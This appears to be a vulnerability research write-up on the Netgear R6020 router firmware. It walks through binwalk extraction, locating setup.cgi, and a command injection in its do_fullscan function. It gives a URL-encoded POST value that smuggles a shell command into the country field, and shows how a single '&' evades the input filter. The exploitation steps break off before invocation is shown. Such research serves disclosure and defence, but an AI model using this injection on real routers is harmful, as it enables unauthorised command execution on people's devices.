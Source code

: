 ## Hacking the Netgear R6020

### 1. Getting the Firmware

Firmware for this router can be found at <https://www.netgear.com/support/product/R6020.aspx#download>

The version in this blog is `1.0.0.48`

#

### 2. Extracting the Root Filesystem
Use binwalk to extract firmware files.

```console
j-o-e-l-s@machine:~/Downloads$ binwalk -e R6020_V1.0.0.48.zip 
j-o-e-l-s@machine:~/Downloads$ cd _R6020_V1.0.0.48.zip.extracted
j-o-e-l-s@machine:~/Downloads/_R6020_V1.0.0.48.zip.extracted$ binwalk -e R6020_V1.0.0.48.img 
j-o-e-l-s@machine:~/Downloads/_R6020_V1.0.0.48.zip.extracted$ cd _R6020_V1.0.0.48.img.extracted/
j-o-e-l-s@machine:~/Downloads/_R6020_V1.0.0.48.zip.extracted/_R6020_V1.0.0.48.img.extracted$ binwalk -e R6020.bin 
```

We can now look at the root filesystem files.
```console
j-o-e-l-s@machine:~/Downloads/_R6020_V1.0.0.48.zip.extracted/_R6020_V1.0.0.48.img.extracted/_R6020.bin.extracted/squashfs-root$ ls
bin   dev  etc_ro  init  media  proc  sys  usr  www
data  etc  home    lib   mnt    sbin  tmp  var  www.eng
```

#

### 3. Identifying Files of Interest
This router uses `.cgi` files to handle web requests and input sanitization so any of these file are available for analysis.
```sh
j-o-e-l-s@machine:~/squashfs-root$ find -name "*.cgi*"
./usr/etc/htpwd_recovery.cgi
./usr/etc/restore_config.cgi
./usr/etc/upgrade_stringTbl.cgi
./usr/etc/upgrade_flash.cgi
./usr/etc/setup.cgi
./usr/sbin/htpwd_recovery.cgi
./usr/sbin/restore_config.cgi
./usr/sbin/upgrade_flash.cgi
./usr/sbin/setupwizard.cgi
./usr/sbin/setup.cgi
```
 #
 
 ### 4. Analyzing setup.cgi
 Within setup.cgi there is a function that I named `do_fullscan` that is invoked by a HTML POST to setup.cgi.
 
 ![image](https://user-images.githubusercontent.com/90354476/133103817-6183c15a-f511-41e4-ad79-cdc415ec7fdc.png)
 
 Within this function a shell command is executed using formatted strings:
 
 ![image](https://user-images.githubusercontent.com/90354476/133106054-76a12201-d9b1-4b84-8618-16e0efdfdd3a.png)

 ![image](https://user-images.githubusercontent.com/90354476/133104386-36cf5239-f830-4f00-ab92-094e709adec5.png)
 
 So all I have to do is change one of the `%s` variables to be an arbitrary shell command. 
 
 In this case I'm going to modify the first formatted string `wiz_country`.
 
 Another thing I have to change is the region. There is a line 
 ```cpp
 if (region_is_NA() == 0)
 ```
 that controls whether wiz_country is simply `US` or a user supplied value.

#

### 5. Overview of Exploitation Steps
- Change the region to be anything but NA
- Modify wiz_country to inject a shell command.
- Invoke vulnerable function 

#

### 6. Changing the Region

#

### 7. Modifying wiz_country

To modify `wiz_country` we can use the function `changeLang`. It can be invoked with a POST to `setup.cgi` and looks like:
```python
language=English&country=United+States&todo=changeLang
```

Here country corresponds to `wiz_country`.

I want to change this to be a ping command:
```python
>>> urllib.parse.quote('" & ping 10.0.0.2 & "')
'%22%20%26%20ping%2010.0.0.2%20%26%20%22'
```

So the new POST will look like:
```python
language=English&country=%22%20%26%20ping%2010.0.0.2%20%26%20%22&todo=changeLang
```

The `&` in the ping command is important because there are forbidden value checks. For instance `$(` `||` `&&` are forbidden among a few others, however the singular `&` is allowed which allows the first part of the shell command to be parsed seperately and ran in the background.

#

### 8. Invoking do_fullscan 

